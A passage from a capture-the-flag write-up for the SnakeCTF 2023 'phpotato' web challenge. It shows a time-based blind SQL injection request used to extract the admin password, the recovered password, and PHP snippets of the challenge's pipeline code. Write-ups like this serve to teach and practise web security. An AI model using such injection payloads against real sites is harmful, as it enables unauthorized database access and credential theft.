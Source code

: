 Therefore, based on the schema of the databse, the final injection was:

```http
GET /index.php?page=home&sort=AND+(SELECT+1+FROM+users+WHERE+username+%3d+'admin'+AND+HEX(password)+LIKE+'7734%25'+AND+SLEEP(1)) HTTP/2
Host: phpotato.snakectf.org
```

After scripting a bit, the admin password is `w4GNskGHWrfmodOhtc04dphIttnBhEcT`

With the admin credentials we can access the pipeline creation process at `/admin`

![pipeline-creation](/assets/img/SnakeCTF_2023/phpotato-pipeline-admin.png)

Here are the most important snippets from the source code:

First, the flag is defined globally as `FLAG`

```php:misc/config.php
$define_flag = fn() => define('FLAG', getenv('FLAG'));
```

Second of all, pipelines are created with a request, and then processed with another one. After creating a pipeline, this is the lambda function that handles the processing part:

{:.linenumber}
```php:pages/numbers.php
$handle_post_process = fn(&$mysqli) =>
    ($stmt = $mysqli->prepare('SELECT id, num, pipeline FROM numbers WHERE user_id = ? AND id = ?')) &&
    $stmt->bind_param("ii", $_SESSION['id'], $_POST['id']) &&
    $stmt->bind_result($id, $num, $pipeline) &&
    (
        ($res = $stmt->execute()) &&
        $stmt->fetch() &&
        ($pipeline_e = explode("\n", $pipeline)) && //newline separates istructions
        ($_SESSION['pipeline']['instructions'] = array_map($parse_instruction, $pipeline_e)) &&
        (($_SESSION['pipeline']['num'] = $parse_number($num)) || $_SESSION['pipeline']['num'] == 0) &&
        ($_SESSION['pipeline']['id'] = $id) ?
        set_user_hook('start_processing')
        : set_user_hook('something_wrong')
    ) || header('Refresh:0') || exit();
```
